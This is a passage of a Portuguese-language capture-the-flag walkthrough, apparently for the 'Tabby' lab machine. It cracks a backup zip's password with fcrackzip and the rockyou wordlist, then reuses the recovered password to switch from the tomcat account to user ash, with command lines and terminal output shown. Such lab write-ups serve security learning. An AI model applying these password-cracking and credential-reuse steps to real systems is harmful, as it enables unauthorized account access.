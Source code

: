 ```bash
          [-l|--length min-max]         check password with length min to max
          [-u|--use-unzip]              use unzip to weed out wrong passwords
          [-m|--method num]             use method number "num" (see below)
          [-2|--modulo r/m]             only calculcate 1/m of the password
          file...                    the zipfiles to crack

methods compiled in (* = default):

 0: cpmask
 1: zip1
*2: zip2, USE_MULT_TAB
```

Usei esses parametros e a lista  rockyou para fazer o brute forte

```bash
fcrackzip -b -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
```

Foi rápido até

possible pw found: admin@it ()

com essa senha da para descompactar o arquivo na verdade essa senha nao vai ser para  descompactar o arquivo, essa senha é do user da maquina

Depois volte para o terminal logado na maquina
e va para o

cd /home

Faça login com esse tal de ash

```bash
tomcat@tabby:/home$ ls
ls
ash
tomcat@tabby:/home$ cd ash    
cd ash
bash: cd: ash: Permission denied
tomcat@tabby:/home$ su ash
su ash
Password: admin@it

ash@tabby:/home$ ls
ls
ash
ash@tabby:/home$ 
```

```bash
ash@tabby:/home$ cd ash
cd ash
ash@tabby:~$ ls
ls
linpeas.sh  snap  user.txt
ash@tabby:~$ 
```
